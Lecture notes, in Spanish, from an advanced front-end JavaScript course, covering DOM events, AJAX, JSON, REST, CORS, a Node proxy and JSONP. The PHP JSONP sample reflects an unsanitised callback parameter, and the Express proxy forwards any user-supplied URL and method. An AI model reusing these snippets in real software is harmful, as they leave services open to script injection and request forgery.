







# [Curso de JavaScript Avanzado para desarrolladores Front-end](https://fictizia.com/formacion/curso-javascript-avanzado)
### POO con JS, ECMA6, Patrones de diseño, AJAX avanzado, HTML5 avanzado, APIs externas.


## Clase 8

### Eventos: Funcionamiento

[Soporte](http://caniuse.com/#search=addEventListener)

- Podemos escuchar eventos y enlazar funciones (*event handler*)


[Demo](http://jsfiddle.net/L79xw5ye/)

**Propagación:**
- *Capturing* desde *document* hasta el elemento
- *Target* impacta el elemento
- *Bubbling* sube desde el elemento hasta *document*
	 

### Eventos: Usando Eventos con `onclick` 

Solo una función por evento
```html
	<button onclick="cambiarFondo()">Cambia el fondo</button>
```
	
```javascript
	function cambiarFondo() {
		// color = 'rgb(0-255,0-255,0-255'
		var color = 'rgb(' + Math.floor((Math.random() * 255))+ ',';
		color += Math.floor((Math.random() * 255)) + ',';
		color += Math.floor((Math.random() * 255)) + ')';
		document.body.style.backgroundColor= color;
		console.info("Nuevo color:", color);
	}
```

**Usando Eventos (actualidad):**

- Usando Eventos (Callbacks)
	- Multiples funciones por evento
	- Necesidad de compatibilizar para IE8

- Propiedades
	```javascript
		// Callback - Manejador de Eventos
		function manejadorEventos(elEvento) {
		  	// Compatibilizar el evento
		  	var evento = elEvento || window.event;
		  	// Imprimir detalles
		  	console.log("-----------------------------")
		  	console.log("Type: "+evento.type); // Tipo
		  	console.log("Bubbles: "+evento.bubbles);
		  	console.log("Cancelable: "+evento.cancelable);
		  	console.log("CurrentTarget: ", evento.currentTarget);
			console.log("DefaultPrevented: "+evento.defaultPrevented);
			console.log("EventPhase: "+evento.eventPhase);
			console.log("Target: ", evento.target);
			console.log("TimeStamp: "+evento.timeStamp);
			console.log("IsTrusted: "+evento.isTrusted); // true - Usuario o false - Script
			console.log("=============================")
			// Desactivamos
			if (document.removeEventListener){ 
				document.removeEventListener('click', manejadorEventos);
				console.info("Listener quitado con exito");
			} else { // IE8
				document.detachEvent('onclick', manejadorEventos);
				console.info("Listener quitado con exito");
			}
		}
		// Añadimos Listener
		document.addEventListener('click', manejadorEventos);
	```	

- Métodos:
	- .addEventListener() *Añadir un evento a un elemento del DOM*:
	```javascript
	document.body.addEventListener('click', function (e) {
	    var color = 'rgb(' + Math.floor((Math.random() * 255))+ ',';
	    color += Math.floor((Math.random() * 255)) + ',';
	    color += Math.floor((Math.random() * 255)) + ')';
	    document.body.style.backgroundColor= color;
	    console.info("Nuevo color:", color);
	});
	```
	- .attachEvent() *Añadir un evento a un elemento del DOM (<= IE8)*:
	```javascript
	document.attachEvent('onclick', function (e) {
	    var color = 'rgb(' + Math.floor((Math.random() * 255))+ ',';
	    color += Math.floor((Math.random() * 255)) + ',';
	    color += Math.floor((Math.random() * 255)) + ')';
	    document.body.style.backgroundColor= color;
	    console.info("Nuevo color:", color);
	});
	```
	- .removeEventListener() *Elimina un evento previamente añadido*:
	```javascript
	function cambiarColor (){
	    var color = 'rgb(' + Math.floor((Math.random() * 255))+ ',';
	    color += Math.floor((Math.random() * 255)) + ',';
	    color += Math.floor((Math.random() * 255)) + ')';
	    document.body.style.backgroundColor= color;
	    console.info("Nuevo color:", color);
	}
	
	document.body.addEventListener('click', cambiarColor);
	document.body.removeEventListener('click', cambiarColor);
	```
	- .detachEvent() *Elimina un evento previamente añadido (<= IE8)*:
	```javascript
	function cambiarColor (){
	    var color = 'rgb(' + Math.floor((Math.random() * 255))+ ',';
	    color += Math.floor((Math.random() * 255)) + ',';
	    color += Math.floor((Math.random() * 255)) + ')';
	    document.body.style.backgroundColor= color;
	    console.info("Nuevo color:", color);
	}
	
	document.body.attachEvent('onclick', cambiarColor);
	document.body.detachEvent('onclick', cambiarColor);
	```
	- .dispatchEvent() *Lanza un evento manualmente*:
	```javascript
	document.body.addEventListener('click', function (e) {
	    var color = 'rgb(' + Math.floor((Math.random() * 255))+ ',';
	    color += Math.floor((Math.random() * 255)) + ',';
	    color += Math.floor((Math.random() * 255)) + ')';
	    document.body.style.backgroundColor= color;
	    console.info("Nuevo color:", color);
	});
	
	var lanzadorEventos = new Event('click');
	document.body.dispatchEvent(lanzadorEventos);
	```


### Detalles de un evento

```javascript
document.body.addEventListener("click", detallesEvento, false);
document.body.addEventListener("keyup", detallesEvento, false);


function detallesEvento (evento) {
    console.group("Manejador de Eventos");
    	console.log("-----------------------------");
    	for (var propiedad in evento){
    		console.log("evento["+propiedad+"]="+evento[propiedad])
    	}
        console.log("=============================");
    console.groupEnd();
}

```

**Referencia de event.type:**
- Ratón
	- click	*Cuando... se hace click de ratón*
	- dblclick	*Cuando... se hace doble click de ratón*

- Teclado
	- keydown	*Cuando... se presionó la tecla*
	- keypress	*Cuando... se presiona la tecla*
	- keyup	*Cuando... se deja de pulsar la tecla*

- [Más eventos](https://developer.mozilla.org/es/docs/Web/Reference/Events)


### Gestionando el flujo
- Deteniendo el flujo:
	- *.preventDefault()* evita el comportamiento por defecto (ex: Link -> nueva URL)
	- *.stopPropagation()* evita la propagación por el DOM (bubble) pero permite la acción por defecto.

### Gestión de Eventos:
```html
	<ul id="miNav">
		 <li><a href="#nosotros">¿Quienes Somos?</a></li>
		 <li><a href="#objetivos">Los objetivos</a></li>
		 <li><a href="#equipo">Nuestro Equipo</a></li>
		 <li><a href="#detalles">Más detalles</a></li>
		 <li><a href="#contacta">Contactanos</a></li>
	</ul>
```
```javascript
   var miNav = document.getElementById("miNav");
   var miNavLinks = miNav.getElementsByTagName("a");
   for (var i = 0; i < miNavLinks.length; i++) {
     miNavLinks[i].onclick = function(){
        console.info(this.innerHTML);
     }
   }
```

### Delegación de eventos:

*Delegación (asociar un único evento al padre de los elementos)*

```html
	<ul id="miNav">
		 <li><a href="#nosotros">¿Quienes Somos?</a></li>
		 <li><a href="#objetivos">Los objetivos</a></li>
		 <li><a href="#equipo">Nuestro Equipo</a></li>
		 <li><a href="#detalles">Más detalles</a></li>
		 <li><a href="#contacta">Contactanos</a></li>
	</ul>
```
```javascript
   var miNav = document.getElementById("miNav");
   miNav.onclick = function(evento){
      var evento = evento || window.event;
      var elemento = evento.target || evento.srcElement;
      console.info(elemento.innerHTML);
   }
```

### Creación de Eventos Personalizados
```javascript
	var evento = new Event('miEventoInventado');
	
	document.body.addEventListener('miEventoInventado', function (e) {
		console.info(e); // {isTrusted: false}
	});
	
	document.body.dispatchEvent(evento);
```


### Programación dirigida a eventos

> La programación dirigida por eventos es un paradigma de programación en el que tanto la estructura como la ejecución de los programas van determinados por los sucesos que ocurran en el sistema, definidos por el usuario o que ellos mismos provoquen.

> Para entender la programación dirigida por eventos, podemos oponerla a lo que no es: mientras en la programación secuencial (o estructurada) es el programador el que define cuál va a ser el flujo del programa, en la programación dirigida por eventos será el propio usuario —o lo que sea que esté accionando el programa— el que dirija el flujo del programa. Aunque en la programación secuencial puede haber intervención de un agente externo al programa, estas intervenciones ocurrirán cuando el programador lo haya determinado, y no en cualquier momento como puede ser en el caso de la programación dirigida por eventos. [Wikiwand](https://www.wikiwand.com/es/Programaci%C3%B3n_dirigida_por_eventos)

- **Ejemplo:**
	```javascript
		var eventos = {
			agregar: null,
			quitar: null,
			manejador: function(evento) {
		        console.group("Manejador de Eventos");
			        console.log("-----------------------------");
		            console.log("Type: " + evento.type); // Tipo
		            console.log("Bubbles: " + evento.bubbles); // sube por el DOM
		            console.log("Cancelable: " + evento.cancelable);
		            console.log("CurrentTarget: ", evento.currentTarget);
		            console.log("DefaultPrevented: " + evento.defaultPrevented);
		            console.log("EventPhase: " + evento.eventPhase);
		            console.log("Target: ", evento.target);
		            console.log("TimeStamp: " + evento.timeStamp);
		            console.log("IsTrusted: " + evento.isTrusted); // true - Usuario o false - Script
		            console.log("=============================");
		        console.groupEnd();
		    }
		}
		
		// Init-time branching (Patrón)
		if (typeof window.addEventListener === 'function') {
		    eventos.agregar = function(el, type, fn) {
		    	el.addEventListener(type, fn, false);
			};
		    eventos.quitar = function(el, type, fn) {
		    	el.removeEventListener(type, fn, false);
		    };
		} else { // Soporte para IE8
		    eventos.agregar = function(el, type, fn) {
		        el.attachEvent('on' + type, fn);
		    };
		    eventos.quitar = function(el, type, fn) {
		        el.detachEvent('on' + type, fn);
		    };
		}
		
		eventos.agregar(document.body, 'click', function (e) {
			var color = 'rgb(' + Math.floor((Math.random() * 255))+ ',';
			color += Math.floor((Math.random() * 255)) + ',';
			color += Math.floor((Math.random() * 255)) + ')';
			document.body.style.backgroundColor= color;
			console.info("Nuevo color:", color);
		})
	```

### Depuración de Eventos en Consola
- [Más información](https://developers.google.com/web/tools/chrome-devtools/console/events)
- [Digital Ocean | Understanding Events in JavaScript](https://www.digitalocean.com/community/tutorials/understanding-events-in-javascript)

```javascript
monitorEvents(document.body, "click");		// info de los eventos
unmonitorEvents(document.body);				// Dejar de seguir los eventos del elemento
unmonitorEvents(document.body, "click");	// Dejar de seguir los eventos de un tipo especifico sobre el elemento
```


### Buenas prácticas

**Lo esencial**
- NO tener demasiadas dependencias (ficheros y librerias)
- NO tener mucha manipulación del DOM
- Gestionar los eventos bien, haciendo uso de patrones
- Pensar siempre en la Experiencia del usuario y contar con patrones para ello
- OFFLINE First, piensa en reducir la carga de la multimedia siempre que puedas
- Estructura bien tu código
- Usa linters para todo (HTML, CSS y JS)
- Encola y empaqueta los cambios del DOM
- minifica, ofusca y comprime siempre que peudas los ficheros
- Vlaida las accioens del susuario usando js cuando lo necesites
- Considera el FrontEnd como una zona de riesgo y piensa en la seguridad primero
- Utiliza naming para tu CSS
- Utiliza plugins y herramientas para calidar tu proyecto en todo momento
- Primero carga el CSS (Final del head) y despues JS (Final del body)
- Usa CDNs o carga tus dependencias de forma local

**Recursos**
- [20 Best Practices for Improving JavaScript Performance](https://www.keycdn.com/blog/javascript-performance/)
- [MDN | Performance best practices for Firefox front-end engineers](https://developer.mozilla.org/en-US/docs/Mozilla/Firefox/Performance_best_practices_for_Firefox_fe_engineers)
- [23 front-end performance rules for web applications](https://techbeacon.com/23-front-end-performance-rules-web-applications)
- [thedaviddias/Front-End-Performance-Checklist](https://github.com/thedaviddias/Front-End-Performance-Checklist)
- [front-end performance checklist 2018](http://bradfrost.com/blog/link/front-end-performance-checklist-2018/)
- [CSS Tricks | Front-End Performance Checklist](https://css-tricks.com/front-end-performance-checklist/)
- [Front End Optimization – 9 Tips to Improve Web Performance](https://www.keycdn.com/blog/front-end-optimization/)
- [12 Days of Christmas Performance](https://www.revsys.com/12days/front-end-performance/)
- [5 Important Ways to Boost Your Frontend Performance](https://www.ezeep.com/five-ways-to-boost-your-frontend-performance/)
- [Need for Speed 2: Improving Front-End Performance](https://jonsuh.com/blog/need-for-speed-2/)
- [O'really Book | Security and Frontend Performance](https://www.oreilly.com/webops-perf/free/security-and-frontend-performance.csp)


### ¿Cómo navegamos por internet?


- [How the Internet Works in 5 Minutes](https://www.youtube.com/watch?v=7_LPdttKXPc)
- Internet es la `red de redes`.
- Son muchos los factoes que intervienen en que internet funcione
- En su base tu ordenador (cliente) se comunica con otro ordenador (servidor)
- Y se establece un dialogo por pasos (peticion y respuesta)

**Recursos**
- [How Does the Internet Actually Work?](https://www.youtube.com/watch?v=ZonvMhT5c_Q)
- [Inside a Google data center](https://www.youtube.com/watch?v=XZmGGAbHqa0)
- [La HISTORIA de INTERNET #DiaDeInternet - Drawing Things](https://www.youtube.com/watch?v=mGG5o6vbKyQ)
- [How It Works: Internet of Things](https://www.youtube.com/watch?v=QSIPNhOiMoE)


### ¿Cómo funciona el protocolo HTTP?

**[Especificación de HTTP](https://tools.ietf.org/html/rfc2616#section-10)**

**Partes de una comunicación**


**Petición HTTP Típica**


**Respuesta HTTP Típica**




**HTTP y sus códigos**
[Lista de respuestas HTTP](https://es.wikipedia.org/wiki/Anexo:C%C3%B3digos_de_estado_HTTP)
- Por tipología:
  - 1xx Informativas
  - 2xx Peticiones Correctas
  - 3xx Redirecciones
  - 4xx Errores Cliente
  - 5xx Errores Servidor

### ¿Cómo funciona el protocolo SSL/TLS?



**Recursos**
- [HakTip - How to Capture Packets with Wireshark - Getting Started](https://www.youtube.com/watch?v=6X5TwvGXHP0)
- [Are HTTP Websites Insecure?](http://blog.securitymetrics.com/2014/08/are-http-websites-insecure.html)
- [From July, Chrome will name and shame insecure HTTP websites](https://www.theregister.co.uk/2018/02/08/google_chrome_http_shame/)
- [Google Chrome: HTTPS or bust. Insecure HTTP D-Day is tomorrow, folks](https://www.theregister.co.uk/2018/07/23/https_dday_google_chrome/)
- [Steal My Login](http://www.stealmylogin.com/)
- [Google Chrome to Label Sites Using HTTP as Insecure Starting in July](http://www.eweek.com/security/google-chrome-to-label-sites-using-http-as-insecure-starting-in-july)
- [Firefox 59: mark HTTP as insecure](https://www.ghacks.net/2017/12/14/firefox-59-mark-http-as-insecure/)

### ¿Qué es AJAX?





**Recursos**
- [A gentle Introduction to Ajax](https://codeburst.io/a-gentle-introduction-to-ajax-1e88e3db4e79)
- [AJAX Basics Explained By Working At A Fast Food Restaurant](https://blog.codeanalogies.com/2018/01/15/ajax-basics-explained-by-working-at-a-fast-food-restaurant/)

### AJAX: En la práctica

**Con Jquery**

```javascript
function peticionJqueryAjax (url) {

    $.ajax({
        dataType: "json",
        url: url,
    })
     .done(function( data, textStatus, jqXHR ) {
         console.log( "La solicitud se ha completado correctamente:", data );
     })
     .fail(function( jqXHR, textStatus, errorThrown ) {
         console.log( "La solicitud a fallado:", textStatus);
    });

}

peticionJqueryAjax ("<---URL---->");
```

**Vanilla JS**

- *readyState*:
    - 0 es *uninitialized*
    - 1 es *loading*
    - 2 es *loaded*
    - 3 es *interactive*
    - 4 es *complete*

```javascript
function peticionAjax(url) {
    var xmlHttp = new XMLHttpRequest();

    xmlHttp.onreadystatechange = function() {

        if (xmlHttp.readyState === 4 && xmlHttp.status === 200) {
            console.info(JSON.parse(xmlHttp.responseText));
        } else if (xmlHttp.readyState === 4 && xmlHttp.status === 404) {
            console.error("ERROR! 404");
            console.info(JSON.parse(xmlHttp.responseText));
        }
    };
    xmlHttp.open("GET", url, true);
    xmlHttp.send();
}

peticionAjax("<---URL---->");
```

### JSON
- Todo puede ser convertido a JSON y decodificado de vuelta
- Pero debe estar dentro de esta [especificacion ECMA-404](http://www.ecma-international.org/publications/files/ECMA-ST/ECMA-404.pdf)
- `JSON.parse()`: Analiza la cadena y retorna los valores
- `JSON.stringify()`: Analiza los valores y retorna una cadena 

```javascript

var dato = {
    "nombre": "Ulises",
    "Saludar": function () {console.log("Hola!")},
    "profe": true,
    "extras": undefined
}

var datoJSON = JSON.stringify(dato); //string -> "{"nombre":"Ulises","profe":true}"
var datoRecuperado = JSON.parse(datoJSON); //object -> {"nombre":"Ulises","profe":true}
```

**Recursos**
- [JSON en Wikiwand](http://www.wikiwand.com/es/JSON)
- [MDN | JSON.parse()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/parse)
- [MDN | JSON.stringify()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/stringify)
- [Validador: jsonformatter](https://jsonformatter.curiousconcept.com/)
- [Visor: jsonviewer](http://jsonviewer.stack.hu/)


### Trabajando con APIs y CRUD

**APIs**
> Una API es una interfaz de programación de aplicaciones (del inglés API: Application Programming Interface). Es un conjunto de rutinas que provee acceso a funciones de un determinado software.
> Son publicadas por los constructores de software para permitir acceso a características de bajo nivel o propietarias, detallando solamente la forma en que cada rutina debe ser llevada a cabo y la funcionalidad que brinda, sin otorgar información acerca de cómo se lleva a cabo la tarea. Son utilizadas por los programadores para construir sus aplicaciones sin necesidad de volver a programar funciones ya hechas por otros, reutilizando código que se sabe que está probado y que funciona correctamente. [Wikipedia](https://es.wikipedia.org/wiki/Web_API)

**CRUD**


> En informática, CRUD es el acrónimo de "Crear, Leer, Actualizar y Borrar" (del original en inglés: Create, Read, Update and Delete), que se usa para referirse a las funciones básicas en bases de datos o la capa de persistencia en un software. [Wikipedia](https://es.wikipedia.org/wiki/CRUD)

- Create:
  - Method (POST):
    - Respuesta 200 - OK
    - Respuesta 204 - Sin contenido
    - Respuesta 404 - No encontrado
    - Respuesta 409 - Conflicto, ya existe
- Read:
  - Method (GET):
    - Respuesta 200 - OK
    - Respuesta 404 - No encontrado
- Update:
  - Method (PUT):
    - Respuesta 200 - OK
    - Respuesta 204 - Sin contenido
    - Respuesta 404 - No encontrado
- Delete:
  - Method (DELETE):
    - Respuesta 200 - OK
    - Respuesta 404 - No encontrado

**REST: Transferencia de Estado Representacional**
> La transferencia de estado representacional (en inglés representational state transfer) o REST es un estilo de arquitectura software para sistemas hipermedia distribuidos como la World Wide Web. El término se originó en el año 2000, en una tesis doctoral sobre la web escrita por Roy Fielding, uno de los principales autores de la especificación del protocolo HTTP y ha pasado a ser ampliamente utilizado por la comunidad de desarrollo. [Wikipedia](https://es.wikipedia.org/wiki/Transferencia_de_Estado_Representacional)


**APIs: Ejemplos de documentación**
- [API RTVE](https://github.com/UlisesGascon/RTVE-API)
- [MARVEL Doc](https://developer.marvel.com/docs)

**APIs: Listados**
- [Public APIs](https://github.com/toddmotto/public-apis)
- [programmableweb - List](https://www.programmableweb.com/apis/directory)
- [Open APIs Wikipedia](https://en.wikipedia.org/wiki/List_of_open_APIs)
- [apilist.fun](http://apilist.fun/)

**APIs: Interesantes**
- [Shodan](https://www.shodan.io/)
- [pokeapi](http://pokeapi.co/)
- [Open Weather Map](http://openweathermap.org/)
- [Fitbit](https://dev.fitbit.com/eu)
- [Marvel](http://developer.marvel.com/)
- [SWAPI - The Star Wars API](https://swapi.co/)
- [reddit](https://www.reddit.com/dev/api)
- [Deck of Cards - API](http://deckofcardsapi.com/)
- [TheTVDB API v2](https://api-beta.thetvdb.com/swagger#/)
- [Twitter Streaming](https://dev.twitter.com/streaming/overview)
- [Guild Wars 2](https://api.guildwars2.com/v2)
- [Nutritionix API](https://www.nutritionix.com/business/api)

### CORS: Control de acceso HTTP



> El Intercambio de Recursos de Origen Cruzado (CORS) es un mecanismo que utiliza encabezados adicionales HTTP para permitir que un user agent obtenga permiso para acceder a recursos seleccionados desde un servidor, en un origen distinto (dominio), al que pertenece. Un agente crea una petición HTTP de origen cruzado cuando solicita un recurso desde un dominio distinto, un protocolo o un puerto diferente al del documento que lo generó. [MDN](https://developer.mozilla.org/es/docs/Web/HTTP/Access_control_CORS)

**Recursos**
- [Understanding CORS](https://medium.com/@baphemot/understanding-cors-18ad6b478e2b)
- [CORS Wikiwand](https://www.wikiwand.com/en/Cross-origin_resource_sharing)
- [Tutorial CORS](http://www.html5rocks.com/en/tutorials/cors/)
- [Using CORS by html5rocks](https://www.html5rocks.com/en/tutorials/cors/)
- [Control de acceso HTTP (CORS) by MDN](https://developer.mozilla.org/es/docs/Web/HTTP/Access_control_CORS)
- [Cross-origin resource sharing en Wikipedia](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing)
- [Enable cross-origin resource sharing](https://enable-cors.org/)
- [crossorigin.me (Proxy)](https://crossorigin.me/)

### PROXY



**Proxy Free Online**
- [cors-anywhere](http://cors-anywhere.herokuapp.com/)
- [crossorigin.me](https://corsproxy.github.io/)

**Nodejs**
```javascript
// Crea un fichero: server.js
// En la terminal: npm install express request && node server.js
var express = require('express');
var request = require('request');
var app = express();
var path = require('path');

// Static files
app.use(express.static('public'));

// viewed at http://localhost:8080
app.get('/', function(req, res) {
    res.sendFile(path.join(__dirname + '/public/index.html'));
});

app.get('/proxy', function (req, res){
    // @Example: localhost:8080/proxy?url=http://airemad.com/api/v1/station/
    // CORS
    res.header("Access-Control-Allow-Origin", "*");
    res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
    
    // PIPE Response
    request({  
        url: req.query.url,
        method: req.query.method || "GET"
    }).pipe(res)
});

app.listen(8080);
```

### JSONP




- json (formato)
```javascript
{ foo: 'bar' }
```
- callback (cliente)
```javascript
mycallback = function(data){
  alert(data.foo);
};
```
  
- peticion (cliente)
```javascript
var url = "http://www.example.net/sample.aspx?callback=mycallback";
```
  
- respuesta (servidor)
```javascript
mycallback({ foo: 'bar' });
```

- Ejemplo de CORS y JSONP con [php de formandome](http://www.formandome.es/javascript/cors-vs-jsonp-solicitudes-ajax-entre-dominios/)
```php
<?php
header('content-type: application/json; charset=utf-8');
header("access-control-allow-origin: *");
 
//Cadena de conexión:
$connect = mysql_connect("localhost", "usuario", "pwd")
or die('Could not connect: ' . mysql_error());
 
//seleccionamos bbdd:
$bool = mysql_select_db("database", $connect);
if ($bool === False){
   print "No puedo encontrar la bbdd: $database";
}
 
//inicializamos el cliente en utf-8:
mysql_query('SET names utf8');

$query = "SELECT * FROM futbolistas";
 
$result = mysql_query($query) or die("SQL Error: " . mysql_error());
$data = array();
// obtenemos los datos:
while ($row = mysql_fetch_array($result, MYSQL_ASSOC)) {
    $data[] = array(
        'id' => $row['id'],
        'nombre' => $row['nombre'],
        'apellido' => $row['apellido'],
        'posicion' => $row['posicion'],
        'equipo' => $row['equipo'],
        'dorsal' => $row['dorsal'],
        'desc' => $row['desc'],
	'imagen' => $row['imagen']
      );
}
 
//codificamos en json:
$json = json_encode($data);
 
//enviamos json o jsonp según venga o no una función de callback:
echo isset($_GET['callback'])
    ? "{$_GET['callback']}($json)"
    : $json;
?>
```

- Ejemplo con [Nodejs](http://expressjs.com/api.html#res.jsonp)
```javascript
var express = require('express');
var app = express();

app.get('/endpointJSON', function(req, res){
    console.log('JSON response');
    console.log(req.query);
    res.json(req.query);
});
 
app.listen(3000);
```


Soporte en cliente (librerías):
- Jquery:
  ```javascript
    // Using YQL and JSONP
    $.ajax({
        url: "http://query.yahooapis.com/v1/public/yql",
        jsonp: "callback",
        dataType: "jsonp",
        data: {
            q: "select title,abstract,url from search.news where query=\"cat\"",
            format: "json"
        },
        success: function( response ) {
            console.log( response ); // server response
        }
    });  
  ```

**Librerías**
- [jsonp.js de Przemek Sobstel](https://github.com/sobstel/jsonp.js/blob/master/jsonp.js)
- [J50Npi.js de Roberto Decurnex](https://github.com/robertodecurnex/J50Npi/blob/master/J50Npi.js)

**Recursos**
- [Is JSONP safe to use?](https://stackoverflow.com/questions/613962/is-jsonp-safe-to-use)
- [Using JSONP Safely](https://www.metaltoad.com/blog/using-jsonp-safely)
- [Practical JSONP Injection](https://securitycafe.ro/2017/01/18/practical-jsonp-injection/)
- [JSONP for cross-site Callbacks](https://weblog.west-wind.com/posts/2007/Jul/04/JSONP-for-crosssite-Callbacks)
- [(in)Security of JSONP: CSRF risks](https://phocean.net/2013/10/13/csrf-with-jsonp.html)


### Herramientas esenciales
- [Insomnia](https://insomnia.rest/)
- [Jsonviewer](http://jsonviewer.stack.hu/)
- [Postman](https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop)

### Ajax avanzado

### Ajax avanzado: Verbos HTTP

**JSON remplazando formularios**

```html
<form action="/action_page.php" method="post" enctype="application/x-www-form-urlencoded">
	<input type="text" name="name" placeholder="First name">
	<input type="submit" value="Enviar">
</form>
```

```javascript
var nombreDato = 'Yo mismo';
var xhr = new XMLHttpRequest();
xhr.open('POST', '/action_page.php');
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.onload = function() {
    if (xhr.status === 200 && xhr.responseText !== nombreDato) {
        console.log('Todo bien! Respuesta:', xhr.responseText);
    }
    else if (xhr.status !== 200) {
        console.log('Algo va mal. Codigo de estado:', xhr.status);
    }
};
xhr.send(encodeURI('name=' + nombreDato));

```

**Mandar un JSON limpio vía POST**
```javascript
var nombreDato = 'Yo mismo';
var xhr = new XMLHttpRequest();
xhr.open('POST', '/action_page.php');
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.onload = function() {
    if (xhr.status === 200) {
        console.log("respuesta:", JSON.parse(xhr.responseText));
    }
};

xhr.send(JSON.stringify({
  "name": nombreDato
}));
```


